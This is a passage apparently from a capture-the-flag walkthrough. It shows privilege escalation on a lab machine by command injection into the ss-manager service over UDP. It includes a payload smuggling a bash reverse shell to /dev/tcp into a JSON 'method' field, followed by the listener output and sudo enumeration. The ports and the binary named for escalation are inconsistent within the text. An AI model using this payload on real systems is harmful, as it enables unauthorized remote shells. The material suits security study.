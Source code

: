 ```console
[nodeadmin@localhost ~]$ ps aux | grep fireman
ps aux | grep fireman
root       812  0.0  0.8 301464  4420 ?        S    23:41   0:00 su fireman -c /usr/local/bin/ss-manager
fireman    829  0.0  0.7  37060  3876 ?        Ss   23:41   0:00 /usr/local/bin/ss-manager
nodeadm+  1042  0.0  0.2 213788  1044 ?        S    23:45   0:00 grep --color=auto fireman
```

## Privilege Escalation
### Command Execution in ss-manager

According to the specifications of the exploit, this must be run under the UDP port 8833, by listing the servicess we can verify that it is running on the specified port.

```console
[nodeadmin@localhost ~]$ ss -ntlu
ss -ntlu
Netid  State    Recv-Q   Send-Q      Local Address:Port      Peer Address:Port  
...
udp    UNCONN   0        0               127.0.0.1:8839           0.0.0.0:*     
...
```

On the attacking machine we start a netcat listener on port 1337, then on the victim machine we connect to UDP port 8839 and we run the following command to get a shell from the target machine.

```console
[nodeadmin@localhost ~]$ nc -v -u 127.0.0.1 8839
nc -v -u 127.0.0.1 8839
Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:8839.
add: {"server_port":8003, "password":"test", "method":"||bash -c 'bash -i >& /dev/tcp/192.168.179.1/1337 0>&1'||"}
```

Now, we have a shell as user fireman.

```console
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.1] 52707
bash: cannot set terminal process group (848): Inappropriate ioctl for device
bash: no job control in this shell
[fireman@localhost root]$ id
id
uid=1002(fireman) gid=1002(fireman) groups=1002(fireman)
[fireman@localhost root]$
```

This user has enabled run some binaries with sudo permissions, we will abuse tcpdump to escalate to root.

```console
[fireman@localhost root]$ sudo -l
sudo -l
Matching Defaults entries for fireman on localhost:
    !visiblepw, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
    LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fireman may run the following commands on localhost:
    (ALL) NOPASSWD: /sbin/iptables
    (ALL) NOPASSWD: /usr/bin/nmcli
```